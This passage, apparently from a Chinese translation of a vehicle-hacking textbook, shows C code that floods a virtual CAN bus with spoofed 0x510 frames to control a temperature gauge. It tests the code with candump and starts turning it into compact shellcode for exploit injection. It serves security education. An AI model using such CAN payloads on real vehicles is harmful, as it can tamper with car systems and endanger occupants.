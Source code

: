 ```
     strcpy(ifr.ifr_name, ➋"vcan0");
     ioctl(s, SIOCGIFINDEX, &ifr);

     addr.can_family = AF_CAN;
     addr.can_ifindex = ifr.ifr_ifindex;

     bind(s, (struct sockaddr *)&addr, sizeof(addr));

➌    frame.can_id = 0x510;
     frame.can_dlc = 8;
     frame.data[1] = 0xFF;
     while(1) {
       write(s, &frame, sizeof(struct can_frame));
➍      usleep(500000);
     }
 }
```

*清单 11-1: C 循环发送 CAN ID 0x510*

清单 11-1 几乎以和设置正常网络套接字相同的方式设置了一个套接字，唯一不同的是它使用了 CAN 系列 `PF_CAN` ➊。我们使用 `ifr_name` 来定义我们希望监听的接口——在这种情况下是 `"vcan0"` ➋。

我们可以使用一个简单的帧结构来设置我们的帧，该结构与我们的包匹配，其中 `can_id` ➌ 包含仲裁 ID，`can_dlc` 包含包的长度，`data[]` 数组包含包的内容。

我们想要多次发送这个包，因此我们设置了一个 `while` 循环并设置了一个休眠定时器 ➍ 来定期发送该包。（如果没有 `sleep` 语句，你会导致总线拥堵，其他信号将无法正常通信。）

为了确认这段代码有效，可以按如下方式进行编译：

```
$ gcc -o temp_shellcode temp_shellcode.c
$ ls -l temp_shell
-rwxrwxr-x 1 craig craig 8722 Jan 6 07:39 temp_shell
$ ./temp_shellcode
```

现在，在另一个窗口中运行 `candump`，并在 vcan0 上查看输出，如下一个清单所示。*temp_shellcode* 程序应该发送必要的 CAN 包来控制温度计。

```
$ candump vcan0
  vcan0  ➊510   [8]   ➋5D  ➌FF  ➍40 00 00 00 00 00
  vcan0   510   [8]    5D   FF    40 00 00 00 00 00
  vcan0   510   [8]    5D   FF    40 00 00 00 00 00
  vcan0   510   [8]    5D   FF    40 00 00 00 00 00
```

`candump` 结果显示信号 0x510 ➊ 被反复广播，第二个字节正确设置为 0xFF ➌。注意 CAN 包的其他值被设置为我们没有指定的值，例如 0x5D ➋ 和 0x40 ➍。这是因为我们没有初始化 *frame.data* 部分，信号的其他字节中存在一些内存垃圾。为了去除这些内存垃圾，在你确定信号时，将 0x510 信号的其他字节设置为你在测试中记录的值——也就是说，将其他字节设置为 `frame.data[]`。

#### ***转换为汇编代码***

尽管我们的 *temp_shell* 程序很小，但它仍然几乎有 9KB，因为我们是用 C 语言编写的，其中包含了一些其他库和代码存根，增加了程序的大小。我们希望我们的 shellcode 尽可能小，因为通常只有一个很小的内存区域可供我们的利用代码运行，而 shellcode 越小，它可以注入的地方就越多。

为了缩小程序的大小，我们将把 C 代码转换为汇编代码，然后再转换为汇编 shellcode。如果你已经熟悉汇编语言，你可以直接从一开始就用汇编写代码，但大多数人发现先在 C 语言中测试有效载荷更容易。
